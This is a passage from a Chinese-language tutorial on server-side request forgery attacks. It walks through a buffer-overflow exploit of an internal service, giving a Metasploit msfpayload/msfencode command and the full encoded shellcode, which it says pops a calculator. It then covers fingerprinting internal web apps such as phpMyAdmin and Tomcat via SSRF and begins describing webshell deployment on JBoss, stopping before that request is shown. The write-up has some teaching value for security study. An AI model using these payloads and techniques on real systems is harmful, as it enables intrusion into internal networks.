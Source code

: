 请求：http://127.0.0.1:8987/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

![baidu]({{site.img_url}}ssrf/ssrf11.png)

![baidu]({{site.img_url}}ssrf/ssrf12.png)

这里是白盒分析，实战的时候当然没这个条件只能是利用已知漏洞来溢出。通过分析写好exp。因为http是基于文本的协议，所以处理一些不可以打印的unicode字符会存在问题。这里使用msfencode来进行编码。命令如下：

	msfpayload widnows/exec CMD=calc.exe R | msfencode bufferRegister=ESP -e x86/alpha_mixed


最终payload如下：


	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@'ßwTYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIIlhhmYUPWpWp3Pk9he01xRSTnkpRfPlKPRtLLKPR24NkbR7XDOMgszuvVQ9oeaKpllgL3QQl5RFLWPiQJodM31JgKRHpaBPWNk3bvpLKsrWLwqZpLK1P0xMU9PSDCz7qZpf0NkQX6xnk2xUps1n3xcgL3yNkednkVayF4qKO5aKpnLIQJo4M31O76XIpbUzTdC3MHxGKamvDbU8bchLKShEtgqhSQvLKtLRkNkShuLgqZslK5TlKVaZpoy3tGTWTqKqKsQ0YSjRqyoKP2xCoSjnkwb8kLFqM0jFaNmLElyc05PC0pPsX6QlK0oOwkOyEOKhph5920VBHY6MEoMOmKON5Uls6SLUZMPykip2UfeoK3wfs422OBJs0Sc9oZuCSPaPl3SC0AA


溢出成功，弹出计算器。

![baidu]({{site.img_url}}ssrf/ssrf13.png)

大家也许会对http发送的数据是否能被其他服务器协议接受存在疑问。可以参考[跨协议通信技术利用](http://www.freebuf.com/articles/web/19622.html)

##内网web应用指纹识别

识别内网应用使用的框架，平台，模块以及cms可以为后续的攻击提供很多帮助。大多数web应用框架都有一些独特的文件和目录。通过这些文件可以识别出应用的类型，甚至详细的版本。根据这些信息就可以针对性的搜集漏洞进行攻击。比如可以通过访问下列文件来判断phpMyAdmin是否安装：

	Request: http://127.0.0.1:8080/phpMyAdmin/themes/original/img/b_tblimport.png
	Request: http://127.0.0.1:8081/wp-content/themes/default/images/audio.jpg
	Request: http://127.0.0.1:8082/profiles/minimal/translations/README.txt


访问 http://10.0.0.1/portName.js 可以判断是否是Dlink 路由器

![baidu]({{site.img_url}}ssrf/ssrf14.png)

下面百度的案例来自于wooyun，已经修复。通过访问http://10.50.33.43:8080/manager/images/tomcat.gif 识别出服务器使用了tomcat。

![baidu]({{site.img_url}}ssrf/ssrf15.png)
![baidu]({{site.img_url}}ssrf/ssrf16.png)

## 攻击内网web应用

仅仅通过get方法可以攻击的web有很多，比如struts2命令执行等。这里提供一个Jboss的案例，使用一个get请求即可部署webshell。

![baidu]({{site.img_url}}ssrf/ssrf17.png)

只需要将网马放在公网服务器上，然后发送这个请求即可：
